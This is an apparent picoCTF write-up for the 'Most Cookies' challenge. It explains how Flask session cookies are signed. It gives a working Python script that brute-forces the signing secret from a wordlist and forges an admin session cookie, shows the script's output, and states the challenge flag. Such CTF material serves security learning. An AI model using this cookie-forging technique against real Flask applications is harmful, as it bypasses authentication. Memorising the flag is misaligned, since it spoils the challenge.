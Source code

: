# Most Cookies
__Flag:__`picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

## Solution
This was a confusing challenge for me. So this challenge deals with flask cookies, for example, our session cookie:`eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZyrxZg.sIwo7Z59uyO8iKRtWLMNolWwpgw`.

Now this cookie is base 64 encoded, so if you decode it you will get: `very auth: blank`.

Our goal here, and the way to get the flag is to set `very auth` to `admin`. However, we cannot do that. The thing is the second part of the cookie is signed by an algorithm using a secret key, and without finding that secret key, the server will not accept the cookie. 

Now, the wordlist for the secret key is given in the `server.py` file. Using a python script, we can find the secret key and thus, the admin cookie which we will input.
```python
import hashlib
from itsdangerous import URLSafeTimedSerializer
from itsdangerous.exc import BadTimeSignature
from flask.sessions import TaggedJSONSerializer
def flask_cookie(secret_key, cookie_str, operation):
    # This function is a simplified version of the SecureCookieSessionInterface: https://github.com/pallets/flask/blob/020331522be03389004e012e008ad7db81ef8116/src/flask/sessions.py#L304.
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    if operation == "decode":
        return s.loads(cookie_str)
    else:
        return s.dumps(cookie_str)

# The list of possible secret keys used by the app.
possible_keys = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

# An encoded cookie pulled from the live application that can be used to guess the secret key.
cookie_str = "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zyro9w.RZkvSmhhFTnRR7SbIK_n5pt9wyM"

# For each possible key try to decode the cookie.
for possible_secret_key in possible_keys:
    try:
        cookie_decoded = flask_cookie(possible_secret_key, cookie_str, "decode")
    except BadTimeSignature:
        # If the decoding fails then try the next key.
        continue
    secret_key = possible_secret_key
    # Break the loop when we have the corret key.
    break

print("Secret Key: %s" % secret_key)

# The admin cookie has the `very_auth` value set to `admin`, which can be seen on line 46 of the server.py code.
admin_cookie = {"very_auth": "admin"}
# Encode the cookie used the `SecureCookieSessionInterface` logic.
admin_cookie_encoded = flask_cookie(secret_key, admin_cookie, "encode")

print("Admin Cookie: %s" % admin_cookie_encoded)

```
```
Secret Key: gingersnap
Admin Cookie: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZyrwJw.ubUbLt-OSVdMFv2c6MsAr9cRaRc
```

<img width="561" alt="{F5C1BF0B-29FB-4C48-BF76-C625D5BA18A5}" src="https://github.com/user-attachments/assets/161ea9c8-4db1-4c95-9764-999715af79e5">
